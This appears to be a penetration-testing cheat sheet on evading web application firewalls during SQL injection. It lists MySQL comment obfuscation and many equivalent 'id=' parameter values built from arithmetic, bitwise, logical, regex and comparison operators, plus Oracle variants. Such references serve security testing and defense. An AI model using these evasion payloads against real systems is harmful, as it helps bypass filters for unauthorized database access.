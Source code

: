 
# Filter Evasion and WAF Bypassing
---
## DBMS Gadgets
```sql
# MySQL C-Style Comment Obfuscation (5.5.30 +)
SELECT 1 /*!50530 + 1 */
```
[MySql Functions and Operators](http://dev.mysql.com/doc/refman/5.7/en/functions.html)

## MySQL Magic with Numbers
```sql
id=1
id=--1
id=-+-+1
id=----2---1

# Bitwise
id=1&1
id=0|1
id=13^12
id=8>>3
id=~-2

# Logical Operators
id=NOT 0
id=!0
id=!1+1
id=1&&1
id=1 AND 1
id=!0 AND !1+1
id=1 || NULL
id=1 || !NULL
id=1 XOR 1

# Regular Expressions
id={anything} REGEXP '.*'
id={anything} NOT REGEXP '{randomkeys}'
id={anything} RLIKE '.*'
id={anything} NOT RLIKE '{randomkeys}'

# Comparison Operators
id=GREATEST(0,1)
id=COALESCE(NULL, 1)
id=ISNULL(1/0)
id=LEAST(2,1)
```

## Oracle Magic With Numbers
```sql
id=1
id=-(-1)
id=-(1)*-(1)
id=some(1)
```
[Oracle Conditions](https://docs.oracle.com/cd/B28359_01/server.111/b28286/conditions.htm#SQLRF005)
[Oracle Expressions](https://docs.oracle.com/cd/B28359_01/server.111/b28286/expressions.htm#SQLRF004)
